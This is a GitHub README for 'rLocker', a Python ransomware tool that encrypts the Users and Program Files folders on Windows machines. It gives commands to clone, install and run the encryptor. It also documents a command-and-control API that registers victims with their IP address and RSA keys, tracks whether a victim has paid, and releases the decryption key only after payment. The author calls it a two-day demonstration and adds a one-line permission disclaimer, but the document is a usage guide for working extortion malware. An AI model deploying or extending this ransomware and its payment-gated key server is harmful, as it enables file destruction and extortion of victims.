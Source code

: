 
# rLocker

rLocker (RSA Locker) is a ransomware tool built in python. It uses the RSA encryption standard to encrypt a computers `C:\Users` files and `C:\Program Files` and `C:\Program Files (x86)`. Your key pair is stored on a [mongoDB](https://www.mongodb.com) database. rLocker communicates with a mainserver API to allow for restricted database access.

rLocker was made with the purpose to find out how easy writing malware can be, and how simple ransomware can devastate a system. rLocker was made over the course of 2 days, so there is likely a lot of bugs. But it serves its purpose to demonstrate the power of cryptography.

rLocker is the encryptor, with dLocker being the decryptor. A file called uuid.rlocker will be created when you have used rlocker, do not delete this file! This file
contains your UUID and it can be difficult to decrupt the files without it!


## Running the code

To use the tools, first clone the repository

```bash
  git clone https://github.com/Ironislife98/rLocker.git
```

Then install the dependencies

```bash
  pip install -r requirements.txt
```

Then run the encryptor

```bash
  python rlocker.python
```

#### Don't do anything without explicit permission



## API Reference

#### Add New Victim

```http
  GET /add/${uuid}/${ip}/${privatekey}/${publickey}
```

| Parameter | Type     | Description                |
| :-------- | :------- | :------------------------- |
| `uuid` | `string` | **Required**. Your unique user id |
| `ip`   | `string  | **Required**. Your ip address |
| `privatekey`   | `string  | **Required**. Your RSA private key |
| `publickey`   | `string  | **Required**. Your RSA public key |


#### Get Key

```http
  GET /getkey/${uuid}
```

| Parameter | Type     | Description                       |
| :-------- | :------- | :-------------------------------- |
| `uuid`      | `string` | **Required**. Unique user id of victim |

Returns key if victim has paid, else returns *Payment not complete!*

#### Get new UUID for victim
```http
  GET /newid
```

Returns a UUID for victim.

#### Paid Status

```http
  GET /paidstatus/${uuid}
```

| Parameter | Type     | Description                       |
| :-------- | :------- | :-------------------------------- |
| `uuid`      | `string` | **Required**. Unique user id of victim |

Returns status of victims payment, *True* or *False*

## Demo

![rLocker Demo](https://github.com/Ironislife98/rLocker/blob/b18a457e20b7398f76e07198fbc6b4b557a78e37/Images/demo.png?raw=true "rLocker Demo")


## Authors

- [@Ironislife98](https://www.github.com/Ironislife98)

